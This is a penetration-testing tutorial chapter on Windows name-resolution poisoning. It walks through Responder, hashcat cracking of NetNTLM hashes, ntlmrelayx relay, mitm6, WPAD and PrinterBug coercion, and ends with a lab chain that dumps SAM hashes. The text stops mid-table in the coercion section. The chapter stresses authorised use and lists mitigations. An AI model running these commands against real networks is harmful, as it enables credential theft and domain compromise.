






This is Chapter 7 of the Network Attacks notebook and, on a real Windows network, the
attack that pays out most reliably. The previous chapters redirected traffic you were
already in the middle of. This one is subtler and more powerful: you never have to
ARP-spoof anything. Instead you exploit the way Windows resolves names when DNS comes
up empty. When a Windows host looks up a name that DNS cannot answer — a typo, a
decommissioned server, an auto-discovery name like `wpad`, a mistyped share — it
**shouts the question to the whole local segment** using legacy broadcast/multicast
protocols: **LLMNR**, **NBT-NS**, and **mDNS**. These have no authentication. Any
machine on the segment can answer, "Yes, that's me, here's my address." The victim
then tries to *authenticate* to the attacker, handing over a crackable (and often
relayable) credential.

The tool that automates this is **Responder**, and the follow-on — turning captured
authentication into access on another host — is **NTLM relay** via `ntlmrelayx`.
Together they are the backbone of internal Windows compromise, and they work on an
astonishing number of enterprise networks because the mitigations (disable LLMNR/NBT-NS,
enforce SMB signing) are frequently not applied.

Everything here is for **authorised** internal testing or a lab domain. Poisoning
name resolution and relaying authentication on a network you do not own is unlawful.
The techniques are here so you can demonstrate — with captured hashes and, where
scoped, a relayed shell — why these legacy protocols must be disabled and why SMB
signing must be enforced.

## Why This Matters

LLMNR/NBT-NS poisoning turns *passive presence* on a Windows segment into
*authentication material* without touching the switches or the gateway. In a
penetration test it is frequently the very first foothold: plug in, run Responder,
wait a few minutes, and collect NetNTLMv2 hashes from users and machine accounts as
their systems make routine mistyped or auto-discovery lookups. Crack a hash and you
have a domain credential; relay it and you can get code execution on another host —
all from an unauthenticated position. Understanding this attack end to end is
essential for offense (it is your reliable opener) and for defense (disabling these
protocols and enforcing SMB signing removes one of the most common internal-compromise
paths in existence).

## Part 1: How Windows Name Resolution Falls Back

To understand the attack, follow the order in which Windows tries to resolve a name.
When an application asks for `\\fileserver01` or `http://intranet`, the resolver
works down a list, and each failure escalates to a broader, less trustworthy method.



The critical property: **DNS is authenticated-ish and centralised; the fallbacks are
neither.** LLMNR, NBT-NS and mDNS are peer-to-peer name resolution on the local
segment with no authentication whatsoever. So the whole attack is: make DNS fail (it
often already does — typos, dead hosts, `wpad`), then answer the broadcast yourself.

**Why DNS "failing" is the common case, not the rare one:** these fallbacks fire far
more often than people expect. A user mistypes a share (`\\fileserv01` instead of
`fileserv02`); a login script references a decommissioned server; an application probes
for `wpad`; roaming laptops look up printers and `.local` services; Office and browsers
make speculative lookups. Every one of those is an `NXDOMAIN` from DNS followed by a
broadcast the attacker can answer — which is why simply running Responder on a busy
segment yields hashes within minutes without any user "doing anything wrong."

### The three fallback protocols

| Protocol | Transport | Scope | When used |
|----------|-----------|-------|-----------|
| **LLMNR** (Link-Local Multicast Name Resolution) | UDP 5355, multicast `224.0.0.252` / `ff02::1:3` | local link | DNS fails; modern default fallback |
| **NBT-NS** (NetBIOS Name Service) | UDP 137, broadcast | local subnet | very old fallback; still enabled on many hosts |
| **mDNS** (Multicast DNS) | UDP 5353, multicast `224.0.0.251` | local link | `.local` names, Apple/zeroconf |

All three carry the same fatal flaw as ARP (Chapter 5): a request is broadcast to
everyone, and there is no way to verify that the answer comes from the real owner of
the name. Whoever answers first, and plausibly, wins.

## Part 2: Why a Poisoned Answer Yields a Credential

Answering "that name is me" is only step one. The payoff comes from what the victim
does next. If the victim was trying to reach a file share or a web resource that
requires Windows authentication, once it believes the attacker's host *is* that
resource, it will attempt to **authenticate** to the attacker using the logged-in
user's context — via **NTLM**.

NTLM authentication is a challenge/response handshake:

```mermaid
sequenceDiagram
    participant V as Victim (as user CORP\alice)
    participant X as Attacker (Responder)
    Note over V: DNS fails for \\fileserv01; broadcasts LLMNR
    V->>X: LLMNR: who is fileserv01?
    X-->>V: LLMNR: it's me (attacker IP)
    V->>X: SMB connect + NTLM Negotiate
    X-->>V: NTLM Challenge (8-byte nonce, chosen by attacker)
    V->>X: NTLM Authenticate (username, domain, HMAC response)
    Note over X: captures user::DOMAIN:challenge:response = NetNTLMv2 hash
```

The attacker's rogue server sends an NTLM **challenge** and the victim replies with a
**response** computed from the user's password hash and that challenge. The attacker
now has a **NetNTLMv2** (or v1) hash: `username::DOMAIN:challenge:HMAC:blob`. This is
**not** the user's NT hash and cannot be pass-the-hash'd directly — but it can be
(a) **cracked offline** to recover the plaintext password, or (b) **relayed** in real
time to another server that will accept it (Part 8).

### The three NTLM messages, precisely

NTLM (NTLMSSP) is always three messages, and knowing them makes both capture and relay
legible:

| Message | Name | Who sends | Key contents |
|---------|------|-----------|--------------|
| Type 1 | NEGOTIATE | client | supported flags/capabilities |
| Type 2 | CHALLENGE | server (you) | the 8-byte server challenge (nonce) |
| Type 3 | AUTHENTICATE | client | username, domain, and the response computed from the user's NT hash + the challenge |

For **NetNTLMv2**, the Type-3 response is `HMAC-MD5(NTLMv2-hash, challenge + blob)`
where the blob includes a client challenge and timestamp. Because it is salted by the
server challenge, it cannot be replayed offline as a hash — you crack it (guess the
password, recompute, compare) or relay it live (forward the exact Type-3 to another
server before it expires). This is why a captured NetNTLMv2 is "crack or relay," never
"pass-the-hash."

This is the same material you learned to *recognise* in Wireshark (Chapter 3, Part 6);
Responder *elicits and assembles* it for you automatically.

> **Ethics and scope reminder:** poisoning name resolution answers queries for *every*
> host on the segment, and coercion actively touches chosen servers. Both can affect
> production systems. Confirm your rules of engagement permit active poisoning/coercion
> (many restrict it to specific windows or forbid it on production), prefer analyze mode
> where required, time-box the activity, and log everything you do.

## Part 3: Responder From Scratch

**Responder** is a LLMNR/NBT-NS/mDNS poisoner and a collection of rogue
authentication servers. It listens for the broadcast/multicast name queries, answers
them with its own address, and stands up rogue SMB/HTTP/FTP/SQL/LDAP/etc. servers that
capture the incoming authentication.

### 3.1 What it is and where it lives

Responder ships with Kali (`/usr/share/responder`) and is on GitHub (SpiderLabs).
Confirm it:

```bash
responder -h
ls /usr/share/responder/            # Responder.conf, tools/, logs/
```

### 3.2 Architecture

- **Poisoners:** the LLMNR, NBT-NS and mDNS answer engines.
- **Rogue servers:** SMB, HTTP, HTTPS, FTP, SQL (MSSQL), LDAP, DNS, WPAD, Kerberos,
  POP/IMAP/SMTP — each captures credentials in its protocol's auth scheme.
- **Config (`Responder.conf`):** switch individual servers on/off, set the challenge,
  enable WPAD, etc.
- **Logs (`/usr/share/responder/logs/`):** captured hashes are written here per host
  and per protocol, ready for hashcat.

### 3.3 Running Responder

```bash
sudo responder -I eth0 -w -d
```

- `-I eth0` interface to poison on (required).
- `-w` start the **WPAD** rogue proxy server (answers `wpad` and serves a PAC).
- `-d` answer NetBIOS **domain** suffix queries too (broadens capture).
- Common extras: `-A` **analyze mode** (see 3.4), `-v` verbose, `-F`/`-P` to force
  auth for WPAD/proxy, `-b` use HTTP Basic (yields cleartext creds when the client
  accepts it).

| Flag | Meaning |
|------|---------|
| `-I eth0` | interface to poison on (required) |
| `-A` | analyze mode — watch, don't answer |
| `-w` | run the WPAD rogue proxy |
| `-d` | answer NBT-NS domain-suffix queries |
| `-f` | fingerprint the host that queried |
| `-b` | use HTTP Basic (captures cleartext when accepted) |
| `-v` | verbose |
| `-F` / `-P` | force WPAD/proxy authentication |

Once running, Responder prints poisoned answers and captured hashes live:

```text
[*] [LLMNR]  Poisoned answer sent to 10.0.0.5 for name fileserv01
[SMB] NTLMv2-SSP Client   : 10.0.0.5
[SMB] NTLMv2-SSP Username  : CORP\alice
[SMB] NTLMv2-SSP Hash      : alice::CORP:1122334455667788:6B1E...:0101000000...
```

The hash is simultaneously written to `logs/SMB-NTLMv2-SSP-10.0.0.5.txt`.

### 3.4 Analyze mode — look before you poison

**Always start with analyze mode** (`-A`), which passively watches LLMNR/NBT-NS/mDNS
traffic and shows you what names are being requested **without answering** anything:

```bash
sudo responder -I eth0 -A
```

This is essential for scope and safety: it tells you how chatty the segment is, which
names fly by (great intel — dead servers, `wpad`, typo'd shares), and whether
poisoning is likely to disrupt anything, all before you send a single forged answer.
On a sensitive production segment, analyze mode may be as far as your rules of
engagement allow.

### 3.5 Key config toggles

Edit `/usr/share/responder/Responder.conf`:

```ini
[Responder Core]
SMB = On
HTTP = On
; turn OFF servers you don't want to answer (reduce noise / avoid clobbering real ones)
SQL = Off
[Responder Core]
Challenge = 1122334455667788   ; static challenge -> enables NetNTLMv1 rainbow-table cracking
```

A **static challenge** (`1122334455667788`) is important: it makes captured
**NetNTLMv1** responses crackable with precomputed rainbow tables (crack.sh), and
keeps captures consistent. For NetNTLMv2 you crack with wordlists regardless.

### 3.6 Reading Responder's output and logs

Responder writes two kinds of artefact you will use constantly:

- **Live console** — poisoned answers and captured hashes, colour-coded per protocol.
- **`logs/` directory** — one file per (protocol, source host): e.g.
  `SMB-NTLMv2-SSP-10.0.0.5.txt` (feed straight to hashcat), `HTTP-NTLMv2-*`, and
  `Responder-Session.log` / `Analyzer-Session.log` for the full record and analyze-mode
  findings. `Config.db`/`Responder.db` (SQLite) dedupes captures so you do not crack the
  same hash twice.

A subtle but important behaviour: Responder captures a given user's hash **once per
unique challenge/session** by default and notes duplicates, so a quiet segment still
yields distinct, crackable lines rather than thousands of repeats. Grab the exact log
file for each account and crack per-file:

```bash
ls /usr/share/responder/logs/
hashcat -m 5600 /usr/share/responder/logs/SMB-NTLMv2-SSP-10.0.0.5.txt rockyou.txt -r best64.rule
```

Other rogue servers worth knowing: Responder's **MSSQL**, **FTP**, **LDAP** and **HTTP
Basic** (`-b`) servers capture credentials in those protocols too — HTTP Basic yields
**cleartext** when a client is willing to send it, which is occasionally a faster win
than cracking.

## Part 4: The Hashes You Get — NetNTLMv1 vs v2

Responder captures **NetNTLM** responses, and which version you get matters a lot for
how you crack them.

| Type | Format (simplified) | hashcat mode | Crackability |
|------|---------------------|--------------|--------------|
| **NetNTLMv1** | `user::DOMAIN:LMresp:NTresp:challenge` | 5500 | weak; with static challenge → rainbow tables / crack.sh → NT hash |
| **NetNTLMv2** | `user::DOMAIN:challenge:HMAC:blob` | 5600 | wordlist/rules only; strength = password strength |

**NetNTLMv1** is catastrophically weak: with a fixed challenge it can be converted to
the account's **NT hash** (not just the password) via crack.sh's precomputed DES
tables — which then enables pass-the-hash. If a host is configured to use NTLMv1 (old
`LmCompatibilityLevel`), coercing it is a near-instant win. **NetNTLMv2** is not
reversible to the NT hash; you must crack the password with a wordlist, so a strong
password resists it.

Responder can attempt to **downgrade** clients to NTLMv1 where their configuration
permits, which is why disabling NTLMv1 domain-wide (Part 11) is a priority.

When you see a **NetNTLMv1** capture (or can downgrade to one), it deserves special
attention: with Responder's static challenge `1122334455667788`, the response can be
submitted to **crack.sh**, which uses precomputed DES keyspace to return the account's
**NT hash** — not the password, the hash — typically within a day and often free for
that fixed challenge. An NT hash enables **pass-the-hash** immediately, no plaintext
needed. This is why a single NTLMv1-speaking host is such a severe finding and why
`LmCompatibilityLevel = 5` (Part 13) is non-negotiable.

## Part 5: Cracking Captured Hashes With hashcat

Once Responder logs a hash, crack it offline with **hashcat** (taught from scratch in
the password-attacks notebook; here is the essential usage for these modes).

```bash
# NetNTLMv2 (mode 5600) with the classic wordlist + a rules file
hashcat -m 5600 alice.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule

# NetNTLMv1 (mode 5500)
hashcat -m 5500 svc.hash /usr/share/wordlists/rockyou.txt
```

- `-m 5600`/`-m 5500` the hash mode (NetNTLMv2 / v1).
- the `.hash` file is the exact line Responder logged.
- `-r best64.rule` applies mangling rules to each word (huge coverage boost).

Successful crack:

```text
alice::CORP:11223344...:6b1e...:0101...:Autumn2023!
                                        ^^^^^^^^^^^ recovered password
```

Cracking speed matters: NetNTLMv2 (mode 5600) runs at hundreds of millions to billions
of guesses/second on a modern GPU, so `rockyou` + `best64` finishes in seconds and a
large wordlist + rules in minutes. Escalate coverage with bigger lists
(`crackstation`, `weakpass`) and rule stacks (`OneRuleToRuleThemAll`) before declaring
a hash uncrackable and pivoting to relay. Always attack captured hashes on your own
cracking rig, never on the target.

You now hold `CORP\alice : Autumn2023!` — a domain credential usable for
authenticated enumeration, spraying, and lateral movement (later notebooks). For
NetNTLMv1 captured with a static challenge, submit to crack.sh to recover the **NT
hash** directly for pass-the-hash.

## Part 6: When You Can't Crack — Relay Instead

A strong password may resist cracking. But you often do not need to crack at all: you
can **relay** the captured authentication to another server *in real time*, so the
victim's authentication logs *you* into a third host as them. This is **NTLM relay**,
and it converts a captured hash you cannot crack into direct access.

The linchpin is **SMB signing**. If the target server does **not require** SMB
signing, a relayed NTLM authentication is accepted as genuine. If it **requires**
signing, the relayed session fails an integrity check and the attack dies. Hence the
single most important defensive fact in this chapter: **require SMB signing on all
hosts** and relay to SMB is dead.



**One more constraint:** you cannot relay a host's authentication *back to itself*
(reflective relay) — that was patched long ago (MS08-068 and successors). Relay always
goes victim → attacker → a **different** target. And you can only relay to a protocol
the victim's captured auth is valid for and where the target account has privileges
(e.g. relaying alice to a host where alice is a local admin yields admin actions;
relaying to a host where she is nobody yields little).

## Part 7: NTLM Relay With ntlmrelayx

`ntlmrelayx.py` (from Impacket) is the relay engine. You point Responder's poisoning
at victims but **turn off Responder's own SMB/HTTP servers** so ntlmrelayx can catch
and forward the authentication instead.

### 7.1 Prepare Responder to coexist

In `Responder.conf`, set `SMB = Off` and `HTTP = Off` (ntlmrelayx will bind those),
then run Responder only as a poisoner:

```bash
sudo responder -I eth0    # poisons LLMNR/NBT-NS/mDNS; SMB/HTTP disabled in conf
```

### 7.2 Run ntlmrelayx

```bash
# Relay to a list of targets that don't require SMB signing
ntlmrelayx.py -tf targets.txt -smb2support
```

- `-tf targets.txt` file of target hosts (find signing-not-required hosts first, 7.3).
- `-smb2support` support SMB2/3.
- Useful modes: `-c "whoami"` run a command; `-e payload.exe` execute; `-i`
  interactive SMB client shell; `--dump-sam` dump local hashes; LDAP targets enable
  domain enumeration and privilege abuse; `--delegate-access` for advanced attacks.

On a successful relay:

```text
[*] Authenticating against smb://10.0.0.30 as CORP/ALICE SUCCEED
[*] Service RemoteRegistry is in stopped state
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b...:e19cc...:::
```

ntlmrelayx has a rich mode set; the ones you reach for most:

| Flag | Effect |
|------|--------|
| `-tf targets.txt` / `-t URI` | targets from a file / a single target (smb://, ldap://, ldaps://, http://) |
| `-smb2support` | support SMB2/3 (essentially always) |
| `-c "command"` | run a command on the relayed SMB host |
| `-e file.exe` | upload+execute a binary |
| `-i` | drop an interactive SMB client shell (`nc` to the printed port) |
| `--dump-sam` / `--dump-laps` | dump local SAM / LAPS passwords |
| `--adcs --template X` | relay to ADCS web enrollment (ESC8), request a cert |
| `--delegate-access` | configure RBCD for later escalation |
| `-6` / `-wh host` | IPv6 mode / serve a WPAD host (with mitm6) |
| `--socks` | keep relayed sessions in a SOCKS proxy for reuse |

`--socks` is especially useful: instead of one action, ntlmrelayx parks each successful
relayed session behind a SOCKS proxy, and you drive them with `proxychains` + any tool
(Chapter 8), reusing the victim's authentication repeatedly.

### 7.3 Find relay targets — hosts without SMB signing

Relay only works to hosts where SMB signing is **not required**. Enumerate them first:

```bash
# nmap script
nmap --script smb2-security-mode -p445 10.0.0.0/24
# or CrackMapExec / NetExec (flags hosts with signing:False)
nxc smb 10.0.0.0/24 --gen-relay-list targets.txt
```

`nxc ... --gen-relay-list targets.txt` writes exactly the list of signing-not-required
hosts that ntlmrelayx should target. This two-step (find non-signing hosts → relay to
them) is the standard workflow.

### 7.4 Relay to LDAP and ADCS (ESC8)

Relaying is not limited to SMB. Relaying to **LDAP/LDAPS** enables domain enumeration
and, with the right privileges, privilege escalation (e.g. adding a computer, RBCD).
Relaying HTTP auth to an **AD Certificate Services** web enrollment endpoint
(**ESC8**) can mint a certificate for the victim account — a powerful, signing-immune
path that the Active Directory notebook covers in depth. The takeaway here: capture →
relay is a family of attacks, and SMB is only the first destination.

## Part 8: mitm6 + Responder — The IPv6 DNS Takeover

Chapter 5 introduced **mitm6**. It pairs perfectly with this chapter. Windows prefers
IPv6 and, by default, sends **DHCPv6** requests. `mitm6` answers them, assigning itself
as the victim's **IPv6 DNS server** — so the victim now sends DNS *to the attacker*
over IPv6 while keeping IPv4 connectivity (quiet, no black-hole). The attacker then
answers those DNS queries (for internal names, WPAD, etc.), coercing authentication
exactly as LLMNR poisoning does — but network-wide and more reliably.

```bash
sudo mitm6 -d corp.local &                       # become the IPv6 DNS server for corp.local
ntlmrelayx.py -6 -wh wpad.corp.local -t ldaps://dc.corp.local -smb2support
```

- `mitm6 -d corp.local` restrict spoofed DNS to the target domain.
- `ntlmrelayx -6` operate over IPv6; `-wh wpad.corp.local` serve a WPAD host to coerce
  proxy auth; `-t ldaps://dc...` relay to the DC's LDAPS.

This `mitm6 + ntlmrelayx` chain is one of the most reliable domain-foothold techniques
in modern AD testing precisely because IPv6 is on-but-unmanaged on most networks
(Chapter 5, Part 11). Scope it tightly with `-d`.

### 8.1 Why mitm6 beats LLMNR poisoning in many environments

LLMNR/NBT-NS poisoning is opportunistic and local-link. `mitm6` is more reliable
because it exploits a behaviour every Windows host performs on boot and periodically —
DHCPv6 solicitation — rather than waiting for a failed lookup. It also survives LLMNR
being disabled: if defenders turned off LLMNR/NBT-NS (the most common single
mitigation) but left IPv6 unmanaged, `mitm6` still delivers the attacker as DNS server
and the whole capture/relay chain proceeds over IPv6. This is why "we disabled LLMNR"
is necessary but not sufficient, and why IPv6 management is on the Part-13 list.

## Part 9: WPAD — Coercing Web Authentication

Responder's `-w` and ntlmrelayx's `-wh` both leverage **WPAD** (Chapter 6, Part 12).
When a browser/OS looks for `wpad` and you answer, you serve a PAC that routes traffic
through your proxy, and — crucially — you can prompt the client for **proxy
authentication**, which many Windows clients supply automatically with the current
user's NTLM credentials. That yields a NetNTLM hash (to capture/relay) over HTTP, even
from hosts that were not trying to reach a file share. WPAD-based coercion widens the
net beyond SMB and is why disabling WPAD (and creating a real `wpad` DNS record) is a
recommended mitigation.

## Part 10: The Full Worked Lab — Poison → Capture → Crack → Relay

**Scenario (isolated lab domain):** attacker Kali `10.0.0.66` on `eth0`; a Windows 10
victim `10.0.0.5` logged in as `CORP\alice`; a member server `SRV2` `10.0.0.30` with
SMB signing **not required**; a DC `10.0.0.10`. Goal: capture alice's hash via
LLMNR poisoning, crack it, and separately demonstrate a relay to SRV2. Lab domain you
own only.

### Step 1 — Recon with analyze mode

```bash
sudo responder -I eth0 -A
# [Analyze] LLMNR request from 10.0.0.5 for 'fileserv01' (does not exist in DNS)
```

The victim periodically looks up a non-existent `fileserv01` — a perfect poisoning
target that will not disrupt anything real.

### Step 2 — Poison and capture the hash

```bash
sudo responder -I eth0 -wd
```

When alice's host next looks up `fileserv01`:

```text
[*] [LLMNR] Poisoned answer sent to 10.0.0.5 for name fileserv01
[SMB] NTLMv2-SSP Username : CORP\alice
[SMB] NTLMv2-SSP Hash     : alice::CORP:1122334455667788:6B1E4F...:01010000...
```

Saved to `/usr/share/responder/logs/SMB-NTLMv2-SSP-10.0.0.5.txt`.

### Step 3 — Crack it offline

```bash
hashcat -m 5600 /usr/share/responder/logs/SMB-NTLMv2-SSP-10.0.0.5.txt \
  /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule
# ...  alice::CORP:...:Autumn2023!
```

Cracked: `CORP\alice : Autumn2023!` — a usable domain credential.

### Step 4 — (Alternative) Relay instead of crack

If alice's password were strong, relay to SRV2 (signing not required):

```bash
# 1) find non-signing hosts
nxc smb 10.0.0.0/24 --gen-relay-list targets.txt
# 2) disable Responder's SMB/HTTP (Responder.conf), poison only
sudo responder -I eth0
# 3) relay captured auth to SRV2 and dump its SAM
ntlmrelayx.py -tf targets.txt -smb2support --dump-sam
```

```text
[*] Authenticating against smb://10.0.0.30 as CORP/ALICE SUCCEED
[*] Dumping local SAM hashes ...
Administrator:500:aad3b...:e19cc9...:::
```

alice is a local admin on SRV2, so the relay dumped SRV2's local hashes — access
gained without ever cracking alice's password.

### Step 4.5 — (Advanced) Coerce instead of wait

To hit a specific host on demand rather than waiting for a lookup, coerce it (Part 11).
With ntlmrelayx already listening on `targets.txt`:

```bash
# Force SRV2 to authenticate to the attacker via the Print Spooler bug
python3 printerbug.py CORP/alice:'Autumn2023!'@10.0.0.30 10.0.0.66
```

SRV2's machine account (`SRV2$`) immediately authenticates to the attacker, and
ntlmrelayx relays it onward — turning "hope alice mistypes a share name" into "get
SRV2's auth this second." Against a DC, the same idea with `PetitPotam.py` + an ADCS
relay is the classic domain-takeover chain.

### Step 5 — Document and clean up



One nuance for the report: although there is no client-side artefact to clean up,
your poisoning did briefly answer real name queries too. Document the exact window you
ran Responder, the names you poisoned (from the session log), and the hosts you relayed
to, so the client can correlate any user-reported oddities and so your activity is
fully accountable.

Stop Responder/ntlmrelayx (Ctrl-C); nothing persists on victims (unlike ARP, there is
no cache to heal), but note in the report exactly which names you poisoned and which
hosts you relayed to.

**Report takeaway:** LLMNR/NBT-NS enabled + a crackable user password + SMB signing not
required allowed unauthenticated capture of a domain credential and a relayed local-admin
compromise of SRV2 — remediated by the Part 11 controls.

## Part 11: Active Coercion — Forcing Authentication On Demand

Passive poisoning waits for a victim to make a mistaken lookup. **Coercion** is the
expert upgrade: *force* a chosen machine (often a high-value one like a domain
controller or server) to authenticate to you *right now*, no waiting and no reliance on
a typo. Coercion pairs with relay (Part 7) to produce reliable, targeted compromise —
and it works against machine accounts, which never "type a password" but authenticate
constantly.

The technique abuses RPC methods that make a server connect to an attacker-supplied
UNC path (`\attacker\share`), which triggers NTLM authentication as the machine
account.

| Coercion | Abused interface / method | Typical tool | Notable target |
|----------|---------------------------|--------------|----------------|
| **PrinterBug** | MS-RPRN `RpcRemoteFindFirstPrinterChangeNotification` | `printerbug.py`, SpoolSample | any host with Spooler on (often DCs) |
